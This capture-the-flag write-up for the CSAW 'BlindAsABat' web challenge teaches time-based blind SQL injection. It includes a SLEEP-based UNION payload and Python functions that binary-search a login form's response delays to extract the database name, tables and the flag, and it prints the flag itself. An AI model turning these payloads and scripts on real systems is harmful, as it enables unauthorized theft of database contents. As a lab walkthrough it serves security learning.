 # BlindAsABat
![Category Web](https://img.shields.io/badge/category-web-%232fc4e5.svg?longCache=true&style=popout)
![Score 300](https://img.shields.io/badge/score-300-orange.svg?longCache=true&style=popout)
![38 solves](https://img.shields.io/badge/solves-38-%2317a2b8.svg?longCache=true&style=popout)

Write up By
**Robe Zhang** [ThirdRepublic](https://github.com/ThirdRepublic)

## Challenge Description
> Now that you can SQLI, can you use that to leak out information from the database?
The flag is in a hidden table.
Hint: You will need to use information_schema
```
web.chal.csaw.io:10101
```

## Background Information
The objective of the challenge is to use SQL injection to extract data from the database. 
The usage of the **UNION** statement allows for additional results to be appended to the SQL query.  
>> Union based SQL injection allows an attacker to extract information from the database by extending the results returned by the original query. The Union operator can only be used if the original/new queries have the same structure (number and data type of columns). [Reference](https://sqlwiki.netspi.com/injectionTypes/unionBased/#mysql)

In this challenge, there isn't a visible output to view result of the SQL query.  We would have to perform a time-based attack to extract information from the database.  A time-based attack utilizes a time delay in the query response to determine if some test case is valid.  Using an if statement with a time-based function allows for True/False questions to be asked.  Queries that yield True will have a time delay in the query response.  By using multiple True/False questions, data can be extracted.  
[Read More](http://www.sqlinjection.net/time-based/) <br />
[SQLi Cheat Sheet](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)

## Solution
The webpage was given. <br /> <br />
![screenshot](page.PNG) <br />
The first step was to determine what database was being used.  I began [fingerprinting](http://www.sqlinjection.net/database-fingerprinting/) with MySQL
> ' UNION SELECT(SLEEP(5)) --  

The page paused for 5 seconds before it "logged in" <br />
![screenshot](sleep.PNG) <br />
Now that I know that MySQL is the database, I began to gather information about the database itself. 
https://sqlwiki.netspi.com/attackQueries/informationGathering/#mysql provides sample queries to query from the schema, databases, tables, and columns.

I began to write my script to first determine the database name.  

I found the length of the name using a incrementing database length checker
```
def findSchemaLength():
	counter = 1
	while True:
		start = time.time()
		payload = {
			'username': "any' UNION SELECT IF(LENGTH(DATABASE())=" + str(counter) + ",SLEEP(" + str(SLEEP) + "),0) ; -- ",
			'password': "any",
		}
		r = requests.post(URL, data=payload)
		end = time.time()
		if end-start>SLEEP:
			break
		counter+=1  
	print "Database length = %d " %counter
```

Then I found the name using binary search for each character within the name.  The set character range is between 0 and 255.
```
def findSchemaName(schemaLength):
	name = ""
	while len(name) != schemaLength:
		tempMax = MAX
		tempMin = MIN
		while True:
			start = time.time()
			payload = {
				'username': "any' UNION SELECT IF(ASCII(SUBSTR(DATABASE()," + str(len(name)+1) + ",1))<=" + str(int((tempMax+tempMin)/2)) + ",SLEEP(" + str(SLEEP) + "),0) ; -- ",
				'password': "any",
			}
			r = requests.post(URL, data=payload)
			end = time.time()
			if end-start>SLEEP:
				tempMax = int((tempMax+tempMin)/2)
			else:
				tempMin = int((tempMax+tempMin)/2)+1
			if tempMax <= tempMin:
				name += chr(tempMax)
				break
	print "Database name = %s " %name
```

Using similar tatics, I recovered:
- **Length of Database Name : 9**
- **Database Name : look_here**
- **Length of Database Version : 6**
- **Database Version : 8.0.12**
- **Number of Tables in look_here : 2**
- **Length of Table Names in look_here : 12 5**
- **Table Names in look_here : look_in_here users**
- **Number of Colmuns in look_in_here : 1**
- **Number of Rows in look_in_here : 1**
- **Length of Colmun Name in look_in_here : 4**
- **Colmun Name in look_in_here : flag**
- **Length of Row Value in look_in_here : 32**
- **Row Value in look_in_here : flag{nOW_W45N7_7h47_547I5fyiN9?}**

[BlindAsABat Script](BlindAsABat.py)

## Flag
```
flag{nOW_W45N7_7h47_547I5fyiN9?}
```
